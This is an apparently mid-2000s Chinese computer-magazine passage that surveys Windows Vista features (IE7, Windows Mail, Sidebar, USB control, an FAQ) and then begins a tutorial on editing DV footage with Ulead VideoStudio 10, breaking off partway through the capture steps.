#### 10. 硬件评分工具：Performance Information and Tools

为了让用户更了解自己电脑硬件相对于操作系统的性能，Windows Vista 中加入了硬件评分工具，用户可以通过 “Control Panel（控制面板）→Performance Information and Tools” 打开它。如图25所示，该工具主要对电脑的处理器、内存、显卡、显卡游戏性能、硬盘存储空间进行衡量并加以评分。而综合评分并不是所有项目的平均分，而是以五项评分中最低的分数作为系统对电脑硬件水平的综合评分。

图24 Performance Information and Tools

| Component | What is rated | Subscore | Base score |
| :--- | :--- | :--- | :--- |
| Processor | Calculations per second | 4.5 | Determined by lowest subscore |
| Memory (RAM) | Memory operations per second | 4.5 | |
| Graphics | Desktop performance for Windows Aero | 3.7 | |
| Gaming graphics | 3D business and gaming graphics performance | 3.7 | |
| Primary hard disk | Disk data transfer rate | 4.5 | |

### 11. 实用的 Windows 边栏和小配件：Windows Sidebar 和 Gadgets

相信很多读者都听说过 Yahoo 的 “Yahoo! Widget Engine” 吧？它将一些常用、实用性的小工具（例如闹钟、新闻、天气预报）整合到用户桌面上，让用户足不出户（不用运行相应程序）地在自己桌面上就能够了解到各方面的信息。

而微软在 Windows Vista 中加入了 Windows Sidebar（边栏）和 Gadgets（小配件），也提供了类似的功能。Windows Sidebar 是桌面上的一条显示区域，上面可以摆放各种 Gadgets。如图26所示，桌面右边是 Windows Sidebar，而上面三个组件就是目前 Windows Vista 提供的 Gadgets。单纯从视觉外观角度看，Windows Vista 最引人注目的改变恐怕除了 Aero Glass 效果外，便非 Sidebar 与形形色色的 Gadgets（小配件）莫属了，相信以后微软或第三方会开发更多的 Gadgets。

图25 Windows Sidebar 和 Gadgets

要对 Sidebar 进行相应的设置与调整，只需在其上单击右键，即会弹出属性窗口，在此可以设置是否系统启动时即载入 Sidebar，调整 Sidebar 在桌面中的位置如将其放到桌面左侧，以及从列表中调整在 Sidebar 中显示的 Gadgets 等。

### 六、改进的工具组件及功能

Vista 对 XP 的一些组件进行了改进，功能变得更加强大。

#### 1. Windows Media Player 11

为了挑战苹果 iTunes 在多媒体领域中的霸权，Windows Vista 还整合了一系列的外围软件和相关服务，其中，最主要的就是 Windows Media Player 11（简称 WMP11，如图27所示）。

图26 Windows Media Player 11

WMP11 不仅对部分性能进行了升级，修订了先前存在的缺陷，增加了多种视频格式的支持，而且还加入了 Windows Media Connect 功能。该新功能将允许用户在家中的兼容设备上共享 WMP 音乐库里的内容。

此外，WMP11 加强了与 MTV 的音乐服务 URGE 的进一步融合。除了功能上的改善和缺陷的修订外，Beta 2 上音乐商店的数目也扩大到了 14 个，新加入的商店包括 eMusic、VidZone 和 Music Giants 等。在正式版本发布之前，还将有更多的在线音乐商店加入进来。

#### 2. 更强大的视频编辑软件：Windows Movie Maker 6

Windows Movie Maker 6（简称 WMM6）包含了大量新特效和转换，在新版本中有 43 种特效（在 WMM 2 中不到 30 种）和 63 种转化（在 WMM 2 中大约有 60 种）。新版本的 WMM 第一次可以通过 Windows 媒体中心直接录制电视，支持 DVR-MS 和加密的 ASF 格式，这意味着你可以直接把电视节目录制到 WMM，编辑处理后，存到硬盘中，刻录到 DVD 光盘中，通过互联网与朋友分享（当然要注意版权的问题）。WMM6 还支持 HD 高清格式输出。

#### 3. Internet Explorer 7

Internet Explorer 7 的正式版终于在不久前对外发布。作为首次亮相于 Windows Vista 中的 Internet Explorer 7，相对于 Internet Explorer 6 而言，无论在界面、功能或安全性方面都有了质的飞跃。

图27 Internet Explorer 6 主界面

图28 Internet Explorer 7 主界面

图27和图28是 Internet Explorer 6 和 Internet Explorer 7 主界面的对比。比起以前方框式的传统窗口，Internet Explorer 7 的界面可谓是光滑细腻。并且，Internet Explorer 7 默认情况下隐藏了菜单栏（按 Alt 键即可快速打开/关闭菜单栏）、工具栏，使界面更加简洁，增大了网页的可视区域。一些常用的工具按钮，例如“前进”、“后退”、“刷新”和“停止”，都被整合到地址栏的两边，更便于使用。而“收藏夹”和“历史记录”被转移到标签栏的左边。一些常用的菜单命令则转移到了标签栏的右边。

## 在功能方面，Internet Explorer 7主要加入了以下功能。

##### （1）多页浏览和管理
一直以来，Internet Explorer 都不支持多页浏览方式，给用户的使用带来很多不便，致使很多用户改用如Maxthon、GreenBrowser等支持多页浏览的网页浏览器。如今Internet Explorer 7支持多页浏览的功能终于千呼万唤始出来，而其多页管理功能也非常强大。

当我们需要打开一个新的标签页时，只需单击工具栏上的空白页按钮（图30所示），或者右击网页链接并在快捷菜单中选择Open in New Tab（在新的标签页中打开），如图31所示。



需要注意的是，目前Internet Explorer 7无法像其他浏览器一样通过双击来关闭标签页，只能通过单击标签页旁边的×按钮或单击鼠标中键来实现。



在Internet Explorer 7中，我们单击一个网页链接默认情况下都是以新窗口形式打开，可能会觉得很不方便，此时我们可以通过以下几种方法来解决该问题：

- 右击该网页链接并在快捷菜单中选择Open in New Tab（在新的标签页中打开）。
- 在单击网页链接的同时按住键盘上的“Ctrl+Shift”组合键，即可在新标签页中打开该链接。
- 按Alt键调出IE 7的菜单栏，选择“Tools→Internet Options”菜单，打开Internet Options（Internet选项），然后在General（常规）选项卡的Tabs（标签）栏中单击Settings（设置）按钮，并在打开对话框上确保选中Always open pop-ups in a new tab（始终在新选项卡中打开弹出窗口）复选框和A new tab in the current windows（当前窗口中的新选项卡）复选框，如图32所示，实现一劳永逸。



如果你同时打开了多个标签页，并且想在这些标签页中切换时，Internet Explorer 7的Quick Tabs（快速标签页）无疑是目前所有浏览器软件中最为方便的功能。单击标签栏左边的Quick Tabs按钮，用户可以查看到当前所有标签页中网页的缩略图，方便用户快速定位到自己所需的标签页（见图33），也可以在Quick Tabs按钮的下拉列表中直接选择要定位的标签页。



##### （2）标签组
很多时候用户希望能够一次打开多个网页进行浏览。例如要浏览娱乐类新闻，我们想同时打开几个娱乐网站进行查看，那么我们就可以利用Internet Explorer 7的标签组功能了。

标签组以文件夹形式存储于“收藏夹”中。我们可以将多个网页保存为一个标签组，如图34所示。



以后只需在“收藏夹”中打开该标签组就可同时打开该标签组中的所有网页，如图35所示。



##### （3）搜索框
在Internet Explorer 7中加入了网页搜索框，可以让用户不用打开搜索引擎主页而直接搜索。如图36所示，单击搜索框右边的箭头，可以从下拉列表中选择自己喜欢的搜索引擎。还可以查找更多的搜索引擎（Get Search Providers），对搜索引擎进行设置（Change Search Defaults）。

##### （4）高级网页打印功能
Internet Explorer 7的网页打印功能得到了增强，它不再像以前 Internet Explorer 6 那样打印网页时由于网页内容太大而造成部分内容被截掉。高级网页打印功能可以根据纸张大小自动调整网页篇幅，而且还可以指定打印网页的哪些内容，让用户更加随心所欲。

### （5）支持 RSS 阅读
RSS 技术在最近一两年可谓迅猛发展，席卷了整个 Internet。现在大家可以看到很多网站都支持 RSS 提要订阅，而不少浏览器也同样支持 RSS 阅读的功能。



在 Internet Explorer 7 中同样支持了 RSS 阅读功能（见图 37），用户可以非常方便地进行 RSS 种子的订阅、管理及使用。



##### （6）网页放大 / 缩小功能
在以前版本的 Internet Explorer 中，我们只能对网页的文字进行放大或缩小。而在 Internet Explorer 7 中提供了对整个网页的放大或缩小功能，让用户更方便、清晰地阅读到网页中的信息。

Internet Explorer 的安全性向来都是被众多用户所诟病。微软为了重塑 Internet Explorer 的形象，在新版本的 Internet Explorer 7 中大幅改进了软件的安全性，主要包括反恶意程序和保护个人隐私数据两方面。

反恶意程序主要包括以下功能：

- URL 处理的保护，更好地防止欺诈性恶意代码对系统的破坏。
- ActiveX 插件管理，用户可以更方便地对 ActiveX 插件进行禁止、启用，并在很大程度上对 ActiveX 插件进行限制，减少恶意 ActiveX 插件的危害。
- 防止跨域脚本攻击。该功能可以有效防范网络上最常见的跨域脚本的攻击。
- Internet Explorer 7 保护模式。保护模式禁止未经许可程序对本地硬盘和注册表写入数据（除 IE 临时文件夹之外），从多角度更好地保护普通用户上网安全。
- 修复 IE 设置。如果发现当前 IE 设置不安全会自动提示用户，用户可以选择修复设置以保持较高安全性。
- 与 Windows Defender 结合形成更为强大的保护。

在保护个人隐私数据方面，Internet Explorer 7 加入了“反欺诈过滤器”，能够时时连接网上欺诈网站数据库并分析用户当前打开的 URL 的真伪性，基本杜绝了以前闹得沸沸扬扬的假冒信用卡网站、假冒银行网站套取用户隐私信息造成用户财产损失的现象。

#### 4. Windows Mail
初一看这名字很陌生，以为又是 Windows Vista 自带的一个新工具。其实它只是 Outlook Express 的升级版，也就是 Outlook Express 7.0。

Windows Mail 主要加入了以下功能：

- （1）“快速查找”框
每天使用邮件客户端进行收发邮件相信已经成为很多人的日常习惯。而面对日积月累的邮件，我们会发现要从众多邮件中找到一封几个月甚至几年前的邮件越来越困难。而 Windows Mail 中也加入了“快速查找”搜索框，借助 Windows Vista 强大的索引系统，它可以帮助用户快速找到自己所需的邮件。大家可以发现，“快速查找”搜索框在 Windows Vista 几乎无处不在，而你也可以通过“开始”菜单或资源管理器的“快速查找”功能来进行邮件的查找。
- （2）垃圾邮件过滤器
早在 Outlook Express 中就已经有了设置邮件规则进行邮件过滤功能，但是对于过滤垃圾邮件来说那形同虚设。而 Windows Mail 中加入了一个内置的垃圾邮件过滤器，在用户接收邮件时自动对邮件进行过滤，无需用户对其进行设置。
- （3）欺诈邮件过滤器
为了更好地防范欺诈性邮件给用户带来的危害，Windows Mail 中加入了一个欺诈邮件过滤器，它可以检查邮件中包含的所有网页链接，如果发现有欺诈性链接就会主动拦截。Windows Mail 中的欺诈邮件过滤器与 Internet Explorer 7 的反欺诈功能形成了两道坚实的防护栏。
- （4）可靠性
经常使用 Outlook Express 的朋友可能会遇到这样的故障：当打开包含大数据量的邮件时提示出现错误，有时甚至导致邮件数据损坏。而 Windows Mail 采用了更为先进的邮件数据存储技术，可以在很大程度上杜绝此类现象的发生。
- （5）新闻组特性
虽然在以前的 Outlook Express 中就包含新闻组功能，但是它由于功能简单，操作不方便，不被很多人所知晓。而在 Windows Mail 中，作为特性之一的新闻组功能被重新包装：它让用户更加容易地创建、管理新闻组，而且简化了发表、回复新闻帖子的过程。

## 5. USB 设备管理
一直以来，如何管制计算机 USB 设备的使用是管理员最为头疼的事情：一方面要允许计算机现有的 USB 设备正常使用（例如鼠标和键盘），有时还需要允许一些 USB 设备的安装（例如打印机）；另一方面为了防止病毒入侵或重要数据外泄，需要限制或禁止 USB 移动存储设备的使用。

在以前的 Windows 系统中，没有一个很好的应对措施。而在 Windows Vista 中，这个问题得到了解决。新的 USB 设备管理机制允许管理员通过组策略对一台或多台计算机的 USB 设备进行控制：例如允许用户在计算机上安装除移动存储盘以外的 USB 设备，或禁止用户安装系统不支持、没有通过认证的 USB 设备。如果需要，还可以限制某特定用户或计算机对 USB 存储设备的读写权限。

## 七、Windows Vista 的常见问题
(1)【问】Windows Vista是什么意思？为什么不叫Windows 2006或其他名字？
【答】Vista的中文意思是狭长的景色、街景、展望、回想，微软想通过这个名字传递一种“个人展望”的感觉。

(2)【问】Windows Vista和Longhorn有什么关系？
【答】Longhorn其实只是微软下一代操作系统内部开发的代号，真正的官方名称是Windows Vista。

(3)【问】Windows Vista会有32位和64位两个版本吗？
【答】是的，微软将会发布32位和64位两个版本的Windows Vista操作系统。

(4)【问】Windows Vista有服务器版本吗？
【答】是的，这个服务器版本的系统开发代号叫作Longhorn Server，最终叫作Windows server 2007，将在Windows Vista发布后的三四个月后发布。

(5)【问】什么样的配置才能顺利运行Windows Vista呢？
【答】微软官方公布的Vista最低硬件配置如下：
- 主频为1GHz的32位或64位CPU
- 1GB物理内存
- 一张可以运行Windows Aero2显示界面的显卡，至少拥有128MB显存，并且完全支持DirectX9
- 一个容量为40GB并且有15GB空闲空间的硬盘
- DVD-ROM
- 音频输出功能
- 上网功能
可见现在的主流PC机就可以完全支持Windows Vista。但由于Windows Vista采用了Aero Glass的操作界面，如果要打开Aero Glass的显示效果，可能需要用户对显卡设备进行简单的升级。
如果对硬件不熟悉，你也可以登录微软官方的Vista硬件要求网站，安装微软官方推出的Vista硬件检测工具Vista Upgrade Advisor，它会自动判断你的电脑是否能正常运行Vista。网址为：http://www.microsoft.com/Windowsvista/getready/default.mspx

(6)【问】Windows Vista面对的是家庭用户还是商业用户？
【答】Windows Vista面对所有的用户，并不分家用还是商用，当然Windows Vista更加优秀的安全机制和性能方面的提升将会最大地让商业用户受益，但是在个人用户方面同样会有很大的提高。

(7)【问】Windows Vista最大的改变在哪些地方？
【答】在以下方面：
- 一个完全被重新设计的用户界面，开发代号为Aero。
- 一个新的命令行界面，开发代号为Monad。
- 内建DVD刻录功能。
- 新的高效压缩安装程序将使Windows Vista在20分钟内完成安装。
- 一种新的搜索和组织信息方式。
总结起来就是安全增强、新的搜索机制、大量新笔记本电脑功能、父母控制、更好的家庭网络。借助Avalon，Vista在视觉方面也有所变化，包括从透明窗口到代表文档本身的图标。

(8)【问】Office 2003能在Windows Vista下正常运行么？
【答】经笔者试用，Office 2003在Vista下使用完全正常，做到了“完美兼容”。

(9)【问】Vista如何设置IP地址？
【答】Start Network单击上方的Network Center左边侧栏的View connections。

(10)【问】在为Vista设置IP时，同时显示IPv4和IPv6，它们是什么？有什么区别？
【答】现有的互联网是在IPv4协议的基础上运行。IPv6是下一版本的互联网协议，它的提出最初是因为随着互联网的迅速发展，IPv4定义的有限地址空间将被耗尽，地址空间的不足必将影响互联网的进一步发展。目前只要设置IPv4即可。
IPv6是下一代版本的IP地址格式。现在不了解IPv6并不是一件奇怪的事，明年或后年可能还是会有很多人不了解它。但是最终属于IPv6的时代必将到来，它不仅可以带来更丰富的IP地址资源，还将带来其他一些好处，例如更好的网络层安全性、对多播的内置支持、主机的自动配置和更好的对QoS的支持等。那么可能现在对你来说没有任何意义，但是几年后可能对你或你的网络管理员来说意义重大。

(11)【问】我的软件在Windows Vista中能正常运行吗？
【答】这和驱动程序的问题很类似，目前还没有专门针对Windows Vista的应用程序。有的程序可以正常运行，有的则可能不行。

(12)【问】Windows Vista所说的connected、clear、confident是什么意思？
【答】微软为Vista操作系统提出了三个最重要的特点：
- Connected：Vista更加紧密和快捷地将你和你的朋友、你所需要的信息以及你的电子设备无缝连接起来，使所有的计算机和电子设备连为一体。
- Clear：这将会有两层意思，第一，Windows Vista所使用的用户界面看起来将会有一种水晶的感觉，从用户界面上让人感到更加整洁。 第二，Windows Vista将会更加有效的处理和归类用户的数据，Windows Vista将会为用户带来最快的个人数据服务，让用户更加快捷地管理自己的信息。
- Confidence：由于间谍软件和大量的网络蠕虫病毒，使得用户越来越不信任自己的计算机，Windows Vista将会为用户带来最好的安全措施，Windows Vista将会比以往任何系统更加安全地保护你的计算机不受病毒侵害。

## 会声会影10——家庭影音不完全手册
文/TMG hyff

随着科技的进步，如今越来越多的家庭拥有了自己的DV设备，用来记录生活的点滴。在拥有DV最初的新鲜感逐渐消逝，尽情体验拍摄乐趣的同时，视频内容也越积越多。把这些记录美好时光的丰富视频内容整理加工成具有专业水准的影片，是每一个拥有DV的朋友愿望，谁不想把这些凝固的幸福瞬间刻录成光盘与亲友一道分享或是永久珍藏呢？那么应该如何入手呢？如何将摄录的影像输入到电脑，如何进行编辑、刻录；如何为平凡的画面添加精彩的特效，怎样为影片添加个性文字或者配上音乐；在输出影片时应该注意哪些问题……这就是本文要解决的问题。

在当今众多的视频编辑软件中，Ulead公司出品的《会声会影》以其人性化的界面，简单的操作，采、编、刻一条龙等特点，成为家庭用户DV编辑的主流软件，在广大DV爱好者中有着良好的口碑。《会声会影10》是此软件的最新版本。

### 一、准备工作
制作数码影片，除了前期拍摄用的数码相机，数码摄像机以外，还要准备好用于视频编辑的电脑硬件和软件。我们首先来介绍视频所需的硬件配置。

#### 1. 计算机配置要求
视频编辑对电脑硬件配置的要求比较高。尽管《会声会影10》的最低配置要求不算很高，但为了能够顺畅地进行视频采集编辑输出工作，我们对系统配置有如下建议：处理器为Pentium4 2.0GHz以上，512MB以上内存等。

#### 2. 磁盘的要求
除了处理器，内存以外，磁盘性能也是影响采集编辑和输出的重要硬件，为了使制作影片的过程更加顺畅，在正式编辑影片以前最好检查电脑的磁盘是否能够符合视频编辑要求，并做相应的优化。适合视频编辑的磁盘应当满足以下三个条件：

- (1) 20 GB以上可用磁盘空间
- (2) NTFS文件系统
- (3) 传输数据时具有不间断的稳定性

### 二、安装与启动
《会声会影10》的安装过程简单方便，下面介绍具体的安装方法：

将《会声会影10》安装光盘插入光驱，安装程序自动运行，单击“安装会声会影”选项，即可按安装向导提示执行安装。

安装过程中间需要注意：选择正确的国家与地区；设置电视系统，中国大陆和香港特别行政区使用可程序化行扫描逻辑视频标准，中国台湾地区使用国际电视系统委员会视频标准。安装“聪明的声音”组件费时较长，此时窗口内容会保持不变，这不是死机现象，应耐心等待。安装完成后，启动会声会影10。可以看到启动界面，如图1所示。



会声会影10针对用户不同的需要，在启动界面中提供了三种制作影片的方式（如图2所示），分别是：会声会影编辑器，提供了全面的影片编辑制作功能；DV转数字化视频光盘向导，可以从DV带捕获并直接刻录成数字化视频光盘；影片向导，用于对影片进行简单的剪辑，通过套用主题模版快速制作影片。



### 三、视频编辑基础概念
我们在开始工作之前，最好先把一些重要的视频编辑基础概念解释清楚，只要理解了这些概念，影片制作中的困惑和问题就能轻松解决。例如，什么是“帧”，“场”又是什么，“视频数据速率”有何作用等等。

#### 1. 帧的概念
##### （1）什么是帧
视频中的单个画面，把这些画面连续拍摄或播放时，呈现为动态影像。

##### （2）帧的大小
帧画面的宽度和高度乘积，以像素为单位来表示。不同视频格式帧大小不同。如4:3 PAL DV拍摄的视频帧大小是720 × 576像素；PAL VCD视频帧大小是352 × 288像素。帧大小越大，画幅越大，看起来越舒服，相应的文件也越大。

##### （3）帧速率
每秒纪录或播放的帧数，单位是“帧/秒”（fps），如可程序化扫描逻辑数字化视频帧速率25 fps，表示每秒记录或播放25个连续的帧画面。帧速率越大，记录或播放效果越流畅，单位时间内视频文件也越大，帧速率并不是越大越好，25 fps对人眼而言已经足够。

#### 2. 场的概念
##### （1）什么是场
电视屏幕上，每个完整的帧画面都是通过扫描两次产生的，每一次扫描称为一个“场”，第二次扫描线条刚好填满第一次扫描下来的空隙，两次扫描之间间隔极短，人眼几乎感觉不到。这样，25帧/秒的电视画面实际为50场/秒。

在电脑上以逐行扫描方式显示25帧/秒的视频时，由于帧的显示时间相对较长，人眼会看到轻微条纹，而在电视或者DV中播放就很流畅。实际操作中，1394卡采集到DV视频场序一般是“低场优先”，那么输出DVD格式视频时最好也采用“低场优先”。

#### 3. 什么是数据速率
播放视频时，不断读取视频文件数据并转化成动态影像的过程中，文件数据呈不断流动的状态，称为“数据流”。视频数据速率（简称“比特率”）指数据流中每秒钟能通过的信息量，单位是kbit/s，表示每秒通过的比特数，视频文件比特率数值越大，单位时间通过的数据越大，影像质量越高。比如VCD格式为1150kbit/s，DVD格式常见是6000或8000kbit/s。所以DVD影像质量比VCD高许多。另一方面，视频文件比特率越高，信息量越大，对视频进行编、解码的处理量就越大，文件占用的空间也就越多。

### 四、会声会影10功能简介
“操作界面直观，步骤流程清晰”，初次接触会声会影10编辑器的用户一般都会有这样的感受。这种人性化的设计给影片制作带来极大方便。

#### 1. 认识会声会影编辑器
双击桌面上的“会声会影10”快捷方式，在启动界面单击“会声会影编辑器”按钮进入编辑器，打开的界面非常直观，如图3所示。



其主界面主要包括以下组成部分：

- 菜单栏：包含不同命令集合的选单。
- 选项面板：包含控制选项、其他信息，用来自定义选定素材的设置。其内容随着当前所在步骤而变化。
- 预览窗：显示当前的素材、视频、滤镜、特效或标题。
- 步骤面板：视频编辑中不同步骤对应按钮。
- 撤销 / 重复按钮：撤销或重复已经执行的操作，默认为99次。
- 时间轴：显示项目内所有素材、标题及特效。有故事板、时间轴、音频三种视图模式。

#### 2. 步骤按钮

- 浏览面板：提供播放和精确修剪素材的按钮。在“捕获”步骤中，也可以使用此面板来控制DV摄录像机。
- 素材库：储存与整理的所有媒体素材。

注：编辑器并不是独立存在的，另外两种操作模式“DV转DVD向导”和“影片向导”中编辑的影片项目都可以转到编辑器当中做深入编辑。另一方面，在编辑器当中也可以随时打开“DV转DVD向导”和“影片向导”（在“工具”菜单下），编辑后的内容将追加到编辑器当前项目，这种四通八达的功能设计给影片制作带来的极大的自由度。

编辑器提供了从捕获到分享共7个步骤按钮，这些步骤按钮好似一个专业向导，帮助用户快速制作具有专业水平的影片，其具体功能如下：

- 捕获：捕获步骤用来将视频源中的动态视频捕获到电脑，还可将动态视频中的某一帧捕获成静态图像。
- 编辑：编辑步骤是会声会影的核心，该步骤用来整理、编辑和修整视频素材。
- 效果：效果步骤用来在视频轨之间添加转场效果，使素材之间自然过渡。还可以将视频滤镜效果应用到视频素材上。
- 覆叠：覆叠步骤用来将一个素材叠加到另一个素材之上，创建多种视频合成效果，如画中画、边框、透明叠加等。
- 标题：标题步骤用来添加编辑标题文字，对标题文字可以应用各种装饰和动画效果。
- 音频：音频步骤用来添加和编辑各种类型的音频素材，调节影片各轨素材的混音效果。
- 分享：分享步骤用来将编辑好的影片输出成各种视频文件、创建DVD/VCD/SVCD光盘，或者回录到DV带当中。

注：会声会影10是非线性影片编辑软件，操作上不需要严格按照“线性”的先后顺序，在会声会影10的七个步骤按钮的指引下，用户按步骤顺序进行，可以井然有序地完成整个制片过程，效率很高。

#### 3. 时间轴

时间轴是编辑器的核心，编辑影片所有操作都是围绕时间轴进行的，单击时间轴左侧的三个按钮，可以在故事板、时间轴和音频三种时间轴视图模式之间进行切换。不同的时间轴视图模式有不同的特点和作用。

##### （1）故事板视图

故事板视图非常直观，显示影片视频轨中的素材缩略图，包括视频、图像和转场。缩略图下方显示视频或图像素材的区间，影片按照缩略图的从左到右的顺序进行播放，故事板视图有两种，可供切换。

故事板视图主要用于添加和查看视频素材，如果视频轨素材很多，放大的故事板视图便于调整素材的先后顺序。

##### （2）时间轴视图

时间轴视图主要由时间轴标尺，5个不同的轨道和连续编辑选项组成，用于完整显示影片项目中各种素材及其组织关系。

时间轴视图是编辑多轨道影片时最常用的视图模式，编辑操作时应遵循视频轨、覆盖轨、标题轨、声音和音乐轨的先后顺序。

##### （3）音频视图

音频视图中显示出影片中各轨素材的音量大小变化。有声素材呈蓝色条状，中间有一条水平的音量调节线，在其上添加关键帧即可调节素材局部位置的音量。无声素材呈黑色条状，中间没有音量调节线。

音频视图主要用于调节各轨道素材的局部音量，以协调整影片的音量大小。

#### 4. 素材库

顾名思义，素材库就是用来放置和管理各种媒体素材的大仓库，通过鼠标拖曳的方式可以把素材文件插入到时间轴，或者将时间轴中的素材保存到素材库。

素材库包括了视频、图像、音频、颜色、转场、视频滤镜、标题、装饰和Flash动画等多种类型。不同类型的素材位于不同素材库中，下面介绍有关素材库的要点及使用方法。

系统资源管理器中的文件缩略图就是文件本身，而素材库中的缩略图是素材文件的链接，右击素材缩略图，在弹出菜单中选择“属性”，就能看到素材文件的位置、格式等各种属性。注意：颜色、视频滤镜、转场和标题这四种素材是程序性质的素材，无法察看属性。

如果链接的素材文件移动了位置或被删除，则当选择素材缩略图时，将出现重新链接的提示框，可根据需要重新链接或者删除素材缩略图。

除了转场和视频滤镜这两个固定素材库以外，其他素材库都可以进行一些添加或删除操作。要向素材库中添加素材，需单击素材库右上角的“插入媒体”按钮，在弹出的对话框中选择相应的媒体文件插入即可，若要将当前时间轴中的素材添入时间轴，以备下次使用，需按鼠标左键将时间轴中的素材缩略图拖入素材库。如果要删除素材缩略图，只需先选中再按Delete键，此时删除素材缩略图后，不会删除其所指向的素材文件。

选择素材缩略图，单击预览窗下的播放按钮即可查看素材内容，为了便于区别和查找类似的素材，常需要对素材缩略图进行重新命名，此时只需要单击素材缩略图名称，出现白底时输入新名称即可。注意：缩略图链接的素材文件名不会发生改变。

对素材排列顺序可以将素材以名称、拍摄时间或者创建日期为顺序进行排列素材。

随着素材的不断增加，会声会影10默认的素材库也可能不足以满足用户的需求，用户可以通过“素材库管理器”建立新的素材库文件夹，来保存和管理新的媒体素材，操作步骤如下：

- （1）在素材库下拉列表中选取“素材库管理器”。
- （2）从“可用的自定义文件夹”列表中选择文件夹类型，单击“新建”按钮，在“新建自定义文件夹”对话框中输入新素材文件夹名称，单击“确定”按钮完成设置。
- （3）返回到“素材库管理器”，单击“关闭”按钮。此时素材库菜单中出现新建的素材文件夹，以后用户就可以把某一类素材存放在新素材文件夹里。

如果要删除新建的素材文件夹，需要再次打开“素材库管理器”，在列表中选择新建的素材库文件夹名称，单击“删除”按钮，再单击“关闭”按钮即可。

#### 5. 影片项目

影片项目是对影片的总体规划，规划师就是用户。理解影片项目的内涵，就能对制作影片有一个统揽全局的了解。如果只知道影片操作的具体步骤，而不了解影片项目，制作影片水平就可能一直徘徊在一知半解，见木不见林的状态。

影片项目听起来比较抽象，不容易理解，但影片项目落实到具体就是指项目文件（*.vsp 格式），用来存放制作影片所需要的所有信息，包括项目属性，影片使用素材的链接地址，以及这些素材在影片中的组织关系的项目文件。

项目文件好似一个设计图，它可以在会声会影10中预览结果，但不能直接通过媒体播放器观看，它只有在“分享”步骤中，经过渲染输出，将项目文件中的所有素材，参数设置按照一定的组织关系合成到一起，生成最终的视频影片后，才能在各类媒体播放器中播放，通常浏览到的视频文件或者DVD光盘内容，都是项目文件的输出结果。

## 五、实战案例（一）——旅游 DV 制作

有了DV，旅游过程中可以拍下所见所闻，回来给朋友放映。有的时候，效果可能没有现场好，那么为什么不使用会声会影10加工一下呢？经过剪辑的旅游影片会比原始视频精彩许多，下面来尝试一下制作自己的作品吧。

旅游影片拍摄的内容大同小异，下面以《泰国风情》为例，介绍旅游影片制作的大致思路和要点。

- （1）在外旅游，可能会拍摄多盘DV带，编辑时应采用整盘捕获方式，在捕获的同时回顾一下旅游的过程，重点看看哪些地方需要剪掉或修饰。不要在捕获时就选择按场景分割，那样可能会得到数十个甚至上百个小的场景视频文件，查找起来比较麻烦。
- （2）剪掉多余场景或是片断是制作旅游影片的重点。旅游拍摄过程中，常有不该出现的人或物跑进画面。初到异地，在兴奋加陌生的感觉下，拍摄到一些不知所云，可有可无的镜头是常有的事；另外，由于景物多，空间大，经常会使用推、拉、摇、移镜头的方式拍摄，不可避免地会出现晃动厉害的镜头画面。这些部分都要剪掉。具体操作时应采用按场景分割功能，对场景进行大致取舍，然后再用多重修整视频功能对某些场景做细致修整，最后加入少量转场效果将生硬的场景或片断自然连接。
- （3）为了使影片更加完整，还可以加上片头、片尾。对这类影片来说，片头片尾效果只要简单明了，能体现当地特色即可。
- （4）输出DVD视频光盘时，一定要制作菜单以便播放时查找场景位置。在最后压缩刻录时，还可以同时输出DVD文件夹或者光盘。这样，以后就可以复制多张DVD光盘赠送给亲朋好友。

#### 1. 捕获视频

从DV带捕获视频和图像是DV影片后期制作的第一步，画面清晰流畅、声画同步是成功的捕获；而失败的捕获常伴有掉帧、中断、画面不清晰、声画不同步或者声音断断续续等情况，这些情况多半是由于捕获前没有进行适当的准备，或捕获时设置不正确造成的，下面将介绍从DV带捕获视频的基础知识，操作方法和经验技巧。

#### （1）捕获选项明析着

正式捕获前，我们先充分了解一下会声会影的捕获选项。

- 区间：可以按指定时间长度捕获DV带中的内容，例如，在此输入0:10:00:00，捕获时将以10min为单位，自动把捕获内容分割成多个视频文件。
- 来源：显示检测到的捕获来源设备。
- 格式：选择用于保存捕获视频的文件格式，单击下拉按钮，在下拉列表中选择DV、AVI、MPEG、VCD、SVCD、DVD或WMV格式，捕获时一般选择DV格式，以保留原始视频质量。
- 按场景分割：选择该项，捕获时将自动根据录制时间把DV分割成多个文件。该功能目前仅支持1394卡和DV视频格式。
- 捕获文件夹：单击右边文件夹按钮，在弹出对话框中可指定捕获的视频文件保存位置，此文件夹所在磁盘要有足够的可用空间存放视频文件。
- 选项：单击选项按钮，在弹出菜单中可打开与所捕获格式相关的参数设置对话框。
- 捕获视频：单击“捕获视频”按钮，将从视频输入设备中的当前帧的下一帧开始捕获视频。
- 捕获图像：单击“捕获图像”按钮，将视频输入设备中的当前帧捕获成静态图像。
- 禁止音频播放：捕获DV视频时，可以同时通过连接到电脑的耳机或音响听到视频中的声音，此时禁止音频播放按钮处于可用状态，单击“禁止音频播放”按钮可以在捕获时静音。

无论任何事情，只要做好充分准备，成功系数就大。捕获视频前，应注意做好如下准备工作：

捕获文件夹最好位于系统盘（通常是C盘）以外的磁盘分区或另外的硬盘上，磁盘文件系统是NTFS，至少有20GB可用磁盘空间，并已经进行了磁盘性能优化。

捕获视频耗时较长，系统资源占用较大，捕获前，最好重新启动系统，然后关闭一些常驻内存的程序，如QQ、MSN、电源管理、屏幕保护、定时杀毒以及定时备份等，以避免干扰捕获过程。建议除了会声会影10以外，不要运行其他任何应用程序。

打开会声会影10，按F6键，在参数选择对话框中单击“捕获”选项卡，按照图4所示设置捕获参数。



##### （2）DV与电脑的连接

正式捕获前，先要将DV与电脑成功连接，操作步骤如下：

- ① 将要捕获的DV带放入DV，注意，DV带和DV制式要一致，如果将NTSC制式DV拍摄的DV带放入PAL制式的DV，就不能正常播放和捕获。
- ② 打开DV查看电量是否够用，以免捕获发生中断，建议将DV与外置电源相连接。有些DV在几分钟内无任何操作时会自动关机，请将其设置为始终打开状态，具体操作参看DV说明书。
- ③ 关闭DV，用1394连线连接DV和电脑主机，DV的1394接口是4针，主机的1394接口是6针，而且接口形状不同。
- ④ 将DV打开到VCR档。系统将自动检测到DV，并弹出“数字视频设备”对话框，表示可以使用该设备。如果连接后没有弹出“数字视频设备”对话框，请检查1394线两头是否插紧，DV拨盘是否拨到VCR档，DV关机时不能被操作系统检测到。如果上述操作无效，建议尝试重新启动电脑。

##### （3）实战捕获视频

将DV与电脑成功连接后，下面就进入正式捕获视频阶段，操作步骤如下：

- ① 打开会声会影10编辑器，建立并切换到新视频素材库，即将捕获的视频素材缩略图将保存在这里，以便管理。
